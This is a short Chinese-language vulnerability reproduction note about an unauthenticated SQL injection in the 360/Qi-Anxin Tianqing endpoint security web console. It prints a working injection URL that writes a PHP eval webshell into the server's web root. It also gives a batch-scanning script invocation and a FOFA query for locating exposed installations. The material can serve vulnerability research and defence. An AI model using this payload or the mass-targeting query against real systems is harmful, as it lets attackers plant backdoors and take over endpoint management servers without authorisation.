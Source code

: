 # 0x00 漏洞介绍
360天擎：一套终端安全管理系统，包括客户端、Web端，漏洞出现在Web端，一个可以未授权访问的API存在SQL注入漏洞，可导致写入Webshell，现在天擎系统归属奇安信，常称为奇安信天擎，官网：https://www.qianxin.com/product/detail/pid/49

# 0x01 复现环境
复现环境：内网环境  
复现版本：None  
环境搭建：  
无

# 0x02 利用条件
无

# 0x03 影响版本
暂无

# 0x04 漏洞复现
写入Webshell的payload如下：
```
/api/dp/rptsvcsyncpoint?ccid=1';create table O(T TEXT);insert into O(T) values('<?php @eval($_POST[1]);?>');copy O(T) to 'C:\Program Files (x86)\360\skylar6\www\1.php';drop table O;--
```
我使用sqlmap进行复现，如下图  
![image](./pic/0.png)

# 0x05 批量脚本
用法：
```
python3 360天擎-SQL注入-Vuln-Batch-Detect.py -h
```
fofa语法：
```
app="360天擎终端安全管理系统"
```
效果如下  
![image](./pic/1.png)

# 0x06 参考链接
https://mp.weixin.qq.com/s/QqlueerhP0uVWWJNULhGvw
